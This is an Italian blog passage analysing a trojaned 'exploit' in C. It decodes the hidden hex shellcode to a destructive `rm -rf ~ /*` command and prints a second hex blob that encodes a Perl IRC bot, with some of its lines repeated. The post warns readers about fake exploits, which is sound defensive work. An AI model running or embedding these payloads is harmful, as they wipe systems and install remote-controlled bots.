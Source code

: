     close(sock);
    free(payload);
    addr.sin_port = htons(6666);
    if(connect(sock, (struct sockaddr*)&addr, sizeof(addr))  == 0) {
                   /* v--- our cool bar that says: "r0000000t!!!" */
        printf("\n  [~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~>]\n\n");
        fremote("PS1='sh-3.2#' /bin/sh");
    }
    else
        printf("  [-] failed to exploit target :-(\n");
    close(sock);
    return 0;
}
{% endhighlight %}
Fantastico, no ?   
Un programma in C da compilare in un baleno, uhm vediamolo così in modo superficiale:

* Ha gli shellcode, sembra un normale exploit...
* Uhm, dall'usage possiamo vedere che ci sono semplici opzioni, nulla di complicato
* C'è bisogno dei permessi di root per eseguirlo...
* Usa i socket, è un expluà remoto, nulla di strano
* Ecco fatto, una volta dentro imposta il PS1 e siamo dentro

Be' allora voi direte "e quindi a che serve 'sto articolo?"    
Giusto, ad una prima occhiata sembra tutto apposto, no ? **NO!**

Cominciamo ad analizzare bene il primo shellcode: `\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26`, ora dobbiamo togliere i `\x` dalla stringa in questione (io ho messo il tutto in un file e con `sed -e 's/\x//g'`  ho risolto {oppure fatelo a mano, babbani}) avendo alla fine: `726D202D7266207e202F2A20323e202f6465762f6e756c6c2026`   
Dopo di ciò basta convertire il tutto da esadecimale a testo normale e **KABOOM**: `rm -rf ~ /* 2> /dev/null &`   
Cosa che cosa ? Avete capito bene, quello shellcode se eseguito **cancella ogni cosa** all'interno della nostra ~ ($HOME)  e ogni cosa in /* (la root) redirezionando l'output a null.   
Cioè se il programma eseguisse una cosa del genere vi ritrovereste la vostra linux box vuota senza neanche accorgervene. (ricordate i permessi di root?)   
Ma non fermiamoci a queste piccolezze, andiamo avanti.   
Facciamo la stessa cosa con gli altri 2 shellcode
{% highlight c %}
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
"\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x0a\x24\x6b\x65"
"\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
"\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
"\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
"\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
"\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
"\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
"\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
"\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
"\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
"\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
"\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
"\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
"\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
"\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
"\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
"\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
"\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
"\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
"\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
"\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
"\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
